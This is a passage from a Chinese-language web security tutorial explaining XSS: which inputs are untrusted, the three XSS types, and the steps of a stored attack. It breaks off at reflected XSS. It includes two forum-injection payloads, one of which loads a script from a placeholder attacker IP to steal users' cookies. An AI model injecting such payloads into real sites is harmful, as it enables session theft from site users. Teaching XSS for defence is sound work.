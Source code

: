 大量事实证明，把网站尽可能做成静态页面，不仅能大大提高抗攻击能力，而且还给黑客入侵带来不少麻烦，到现在为止还没有出现关于HTML的溢出的情况，新浪、搜狐、网易等门户网站主要都是静态页面。

此外，最好在需要调用数据库的脚本中拒绝使用代理的访问，因为经验表明使用代理访问我们网站的80%属于恶意行为。

# XSS攻击

Cross-Site Scripting（跨站脚本攻击）简称 XSS，是一种代码注入攻击。攻击者通过在目标网站上注入恶意脚本，使之在用户的浏览器上运行。利用这些恶意脚本，攻击者可获取用户的敏感信息如 Cookie、SessionID 等，进而危害数据安全。

XSS 的本质是：恶意代码未经过滤，与网站正常的代码混在一起；浏览器无法分辨哪些脚本是可信的，导致恶意脚本被执行。

而由于直接在用户的终端执行，恶意代码能够直接获取用户的信息，或者利用这些信息冒充用户向网站发起攻击者定义的请求。

在部分情况下，由于输入的限制，注入的恶意脚本比较短。但可以通过引入外部的脚本，并由浏览器执行，来完成比较复杂的攻击策略。

这里有一个问题：用户是通过哪种方法“注入”恶意脚本的呢？

不仅仅是业务上的“用户的 UGC 内容”可以进行注入，包括 URL 上的参数等都可以是攻击的来源。在处理输入时，以下内容都不可信：

- 来自用户的 UGC 信息
- 来自第三方的链接
- URL 参数
- POST 参数
- Referer （可能来自不可信的来源）
- Cookie （可能来自其他子域注入）

根据攻击的来源，XSS 攻击可分为存储型、反射型和 DOM 型三种。

### 存储型 XSS

存储型 XSS 的攻击步骤：

1. 攻击者将恶意代码提交到目标网站的数据库中。
2. 用户打开目标网站时，网站服务端将恶意代码从数据库取出，拼接在 HTML 中返回给浏览器。
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

这种攻击常见于带有用户保存数据的网站功能，如论坛发帖、商品评论、用户私信等。

#### 例子

论坛中加入

```html
<script>alert('hello,XSS')</script>
```

![image](https://galiyy.github.io/images/20191001/20191001173515.png)

```html
<script src="http://xxx.xxx.xxx.xxx/xxx.js"></script>
```

可以获取别人cookie，将代码注入目标服务器中

### 反射型 XSS

反射型 XSS 的攻击步骤：

